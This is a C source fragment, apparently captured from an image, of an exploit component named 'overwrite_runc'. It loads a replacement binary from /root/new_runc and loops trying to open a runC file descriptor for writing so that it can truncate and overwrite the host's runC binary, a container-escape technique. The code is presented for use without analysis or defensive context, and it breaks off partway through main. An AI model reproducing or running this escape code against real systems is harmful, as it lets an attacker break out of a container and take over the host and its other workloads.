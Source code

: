     #include <errno.h>

    #include <stdlib.h>
    #include <string.h>
    #include <stdio.h>


    /* Simple Buffer*/
    typedef struct Buffer
    {
        int len;        // buffer length
        void * buff;    // buffer data
    } Buffer;

    #define FALSE 0
    #define TRUE  1

    const char * DEFAULT_NEW_RUNC_PATH = "/root/new_runc";
    const unsigned int PATH_MAX_LEN = 30;

    const int OPEN_ERR = -1;
    const int RET_ERR = 1;
    const int RET_OK = 0;

    const long WRITE_TIMEOUT = 99999999999999999;

    Buffer read_new_runc(char * new_runc_path);


    /*
    * Usage: overwrite_runc <path a file reffering to the runC binary>
    * Overwrites the runC binary.
    */
    int main(int argc, char *argv[])
    {
        int  runc_fd_write, wc;
        char * runc_fd_path;
        char * new_runc_path;                    
        Buffer new_runc;


        printf("\t-> Starting\n");
        fflush(stdout);

        /* Read new_runc */
        runc_fd_path = argv[1];
        new_runc_path = DEFAULT_NEW_RUNC_PATH;
        new_runc = read_new_runc(new_runc_path);
        if (new_runc.buff == NULL)
        {
            return RET_ERR;
        }   

        /* Try to open runc_fd_path for writing      */
        /* Should Succeed when no runC process are executed, normally at first try  */
        int opened = FALSE;
        for (long count = 0; (!opened && count < WRITE_TIMEOUT); count++)
        {
            runc_fd_write = open(runc_fd_path, O_WRONLY | O_TRUNC);
            if (runc_fd_write != OPEN_ERR)
            {
                printf("\t-> Opened %s for writing\n", runc_fd_path);
                wc = write(runc_fd_write, new_runc.buff, new_runc.len);
                if (wc !=  new_runc.len)
                {
                    printf("\t[!] Couldn't write to my process's runC's fd %s\n", runc_fd_path);
                    fflush(stdout);
                    close(runc_fd_write);
                    free(new_runc.buff);
                    return RET_ERR;
